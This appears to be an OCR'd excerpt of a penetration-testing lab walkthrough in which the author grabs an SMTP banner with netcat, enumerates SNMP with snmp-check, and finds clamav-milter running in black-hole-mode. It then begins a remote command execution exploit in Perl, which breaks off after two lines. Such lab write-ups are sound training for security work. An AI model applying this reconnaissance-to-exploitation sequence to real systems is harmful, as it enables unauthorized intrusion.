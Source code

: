 ```bash

kali@kali:~$ nc -vv 192.168.120.81 25
192.168.120.81: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.120.81] 25 (smtp) open
HELO test
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 23 Mar 2020 14:20:48 -0400; (No UCE/UBE) logging access from: [192.168.118.3](TEMP)-[192.168.118.3]
250 localhost.localdomain Hello [192.168.118.3], pleased to meet you
quit
221 2.0.0 localhost.localdomain closing connection
 sent 15, rcvd 299
kali@kali:~$

With the help of this enumeration, we have identified the service as ESMTP Sendmail
SNMP Enumeration

Although we did not scan for the SNMP service on UDP port 161 (and UDP scans are not very reliable anyway), we will attempt to enumerate SNMP service to see if it is running on the target. We can use the snmp-check tool for this purpose:

kali@kali:~$ snmp-check 192.168.120.94
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.120.94:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 192.168.120.94
  Hostname                      : 0xbabe.local
  Description                   : Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686
  Contact                       : Root <root@localhost> (configure /etc/snmp/snmpd.local.conf)
  Location                      : Unknown (configure /etc/snmp/snmpd.local.conf)
  Uptime snmp                   : 00:33:28.71
  Uptime system                 : 00:32:46.43
  System date                   : 2020-4-28 16:22:09.0

...

  3761                  runnable              klogd                 /sbin/klogd                               
  3765                  runnable              clamd                 /usr/local/sbin/clamd                      
  3767                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
  3776                  runnable              inetd                 /usr/sbin/inetd
...

We find that SNMP service is indeed running on the target, and the output generated by this enumeration is quite large. Sifting through the output, we find clamav-milter is running with Sendmail in black-hole-mode.
Exploitation
Remote Code Execution

Looking up exploits for this combination leads us to a Remote Command Execution vulnerability.

Following the exploit, we will create the following Perl file:

kali@kali:~$ cat 4761.pl
#!/usr/bin/perl

use IO::Socket::INET;
```
